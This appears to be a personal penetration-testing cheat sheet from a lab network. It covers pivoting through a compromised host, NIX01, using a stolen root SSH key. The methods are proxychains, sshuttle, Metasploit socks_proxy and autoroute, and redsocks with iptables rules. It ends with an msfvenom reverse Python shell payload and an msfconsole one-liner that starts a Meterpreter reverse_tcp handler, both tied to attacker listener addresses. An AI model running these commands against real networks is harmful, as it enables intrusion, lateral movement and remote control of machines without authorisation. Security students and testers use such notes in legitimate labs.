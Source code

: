 #### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

hhmmmmMMMM I must be doing something wrong I can curl some ip's I know are on the other side but cannot nmap or scan the range...   
dd

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit


sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
